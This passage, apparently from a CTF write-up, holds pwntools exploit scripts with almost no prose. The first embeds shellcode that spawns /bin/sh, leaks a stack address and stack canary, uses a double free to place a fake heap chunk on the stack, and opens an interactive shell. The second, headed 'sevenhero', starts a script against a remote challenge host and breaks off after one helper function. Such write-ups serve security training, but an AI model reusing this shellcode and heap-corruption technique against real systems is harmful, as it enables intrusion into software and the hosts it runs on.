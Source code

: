 ```python
def Edit(Content) :
    Write('Plz input your choice\n', '3')
    sh.sendafter('What message do you want to leave?\n', Content)

#pause()

shellcode =  ""
shellcode += "\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
shellcode += "\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
shellcode += "\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
shellcode += "\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"


Write("Plz input your motto!\n", shellcode)
sh.recvuntil('gift for you: ')
Stack_addr = int(sh.recvuntil('\n'), 16)
log.success('Stack_addr: ' + hex(Stack_addr))
Edit('a'*0x21)
sh.recvuntil('a'*0x20)
#Write('Plz input your choice\n', '4')
canary = u32(sh.recv(4)) - 0x61
log.success('canary: ' + hex(canary))

payload = 'a'*0x1c + p32(0x41)
Edit(payload)

fake_chunk = Stack_addr + 0x20

Add('1', 'a')
Add('2', 'a')
Delete('1')
Delete('2')
Delete('1')


Add('3', p32(fake_chunk))
Add('4', 'b')
sh.recvuntil('your content is: ')
heapbase = u32(sh.recv(4)) & 0xFFFFFF00
log.success('heapbase: ' + hex(heapbase))
Add('5', 'b')
Add('6', p32(canary) + p32(0x0) + p32(heapbase + 0x8))

Write('Plz input your choice\n', '4')


sh.interactive()
```

### sevenhero
```python
from pwn import *
sh = process('./pwn')
sh = remote('119.3.89.93', 8011)
#libc = ELF('./libc.so.6')
#context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = "amd64"

def add(idx, size, content):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('1')
    sh.recvuntil(': ')
```